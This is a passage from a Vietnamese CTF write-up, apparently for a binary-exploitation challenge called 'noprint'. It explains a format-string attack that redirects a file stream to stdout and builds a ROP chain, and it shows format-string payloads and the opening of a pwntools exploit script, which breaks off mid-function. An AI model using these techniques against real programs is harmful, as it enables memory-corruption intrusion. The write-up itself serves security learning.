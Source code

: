 ![image](https://hackmd.io/_uploads/rJM_7cmJxx.png)

- vì vậy ta sẽ cần kiếm các con trỏ trỏ đến nhau , và ở sau địa chỉ `libc_start_call_main` sẽ thích hợp để thực hiện việc này , ý tưởng của ta sẽ là sử dụng định dạng "*" để format string attack thay đổi giá trị tại offset đó thành `0x55555555b6b0+0x70` -> sau đó ta chỉ việc in ra 1 byte và ghi vào địa chỉ stack bên dưới , nó sẽ trông như sau: 

```c
s(b"%112c%*9$c%13$n".ljust(0x100, b"\0"))
s(b".%21$lln".ljust(0x100, b"\0"))
```

- lúc này ta thấy ta đã ghi thành công địa chỉ fileno , tiếp theo ta chỉ việc thay đổi flags -> `stdout` là được 

![image](https://hackmd.io/_uploads/BJ67H9m1el.png)


- lúc này ta đã hoàn tất việc thay đổi filestream thành stdout

![image](https://hackmd.io/_uploads/SySPHcQklg.png)


- cuối cùng chỉ cần thực hiện tương tự để build rop_chain , ở đây ta sẽ ghi rop_chain vào rip+8 trong fprintf , cuối cùng là thêm 1 ret để nó ret vào rop_chain 

exp:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from subprocess import check_output
from time import sleep

from pwn import *

context.terminal = [
    "wt.exe",
    "-w",
    "0",
    "split-pane",
    "-d",
    ".",
    "wsl.exe",
    "-d",
    "kali-linux",
    "--",
    "bash",
    "-c",
]
context.update(arch="amd64", os="linux")
context.log_level = "debug"
exe = context.binary = ELF("./noprint_patched", checksec=False)
libc = exe.libc
log_levels = ["info", "error", "warn", "debug"]
info = lambda msg: log.info(msg)
error = lambda msg: log.error(msg)
warn = lambda msg: log.warn(msg)
debug = lambda msg: log.debug(msg)


def one_gadget(filename, base_addr=0):
    return [
        (int(i) + base_addr)
        for i in subprocess.check_output(["one_gadget", "--raw", "-l0", filename])
        .decode()
        .split(" ")
```